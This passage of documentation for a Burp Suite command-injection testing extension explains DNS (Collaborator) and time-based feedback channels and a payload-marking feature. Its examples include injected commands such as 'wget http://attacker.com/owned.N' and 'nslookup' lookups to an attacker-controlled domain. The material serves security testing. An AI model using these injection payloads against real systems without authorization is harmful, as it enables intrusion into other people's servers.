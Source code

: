 Burp Collaborator is heavily used by the Burp Active Scanner. 

It can as well be used manually (just click on 'Burp'->'Burp Collaborator Client' and try it out yourself), so it can be combined with manual or semi-automated attacks (Repeater, Intruder, tampering through proxy, forging files, using external tools and so on).

Luckily, Burp Suite also provides Burp Collaborator API so it can be used by extensions (and this is exactly what this plugin is doing when **DNS** feedback channel is used).

Service-wise, please keep in mind you can either use the default Collaborator service provided by Portswigger or set up your own. 

Having and using a private Collaborator service makes more sense if we set it up with a domain name as short as possible, like x.yz, so the domain names used in the payloads can look like `55.5aglyjo4e8v6j2ot2f255fraw12rqg.n.xy.z` instead of `55.5aglyjo4e8v6j2ot2f255fraw12rqg.burpcollaborator.net`. The longer our payload is, the higher chances for a false negative (the application might reject our payload due to its excessive length before it reaches the vulnerable code).

Also, it's good to always run a health check of the Collaborator service before actually using it.

### time
This is a well known feedback channel for detecting so called 'blind' variant of injection vulnerabilities. It's faster and it does not require external service like DNS. Also, the payloads are shorter. It should still be considered less reliable as it will NOT detect asynchronous vulnerabilities, whereas the payload is stored first and then executed by a different process or even system.
Upon successful execution, payloads utilizing this feedback channel (e.g. `sleep 25`) cause a significant delay in the response.

## Payload marking
The payload marking mechanism is very simple. Every single payload generated by the tool has its number (starting at 1). 
If payload marking feature is on, upon generation, all instances of the special holder string `PAYLOAD_MARK` in the argument field are replaced with the payload number. This makes it easier to trace back the result to the successful payload that created it. 

For example, if the command is set to `touch` and the argument is set to `/tmp/owned.PAYLOAD_MARK`, once the attack is finished and there is a file named `/tmp/owned.1337`, we know that payload number 1337 was the one responsible for creating the file. 

We could likewise do something like command=`echo` and argument=`PAYLOAD_MARK>>/tmp/owned`. This way the file `/tmp/owned` would contain all the IDs of the payloads that worked.

The third example could be command=`wget` and argument=`http://attacker.com/owned.PAYLOAD_MARK` if attacker.com is our controlled server to observe interactions.

The fourth example could be command=`nslookup` and argument=`PAYLOAD_MARK.collaborator.attacker.com`, so if our DNS server receives a lookup like `66.collaborator.attacker.com`, we know it was triggered by the 66th payload. 

If payload marking feature is off, the `PAYLOAD_MARK` holder - if present - is simply removed from the eventual payload.

## Difference between manual and automatic mode
The mode setting only applies to Intruder and Export (and is ignored by the Active Scanning extension, which is always using the *auto* mode regardless to this setting).

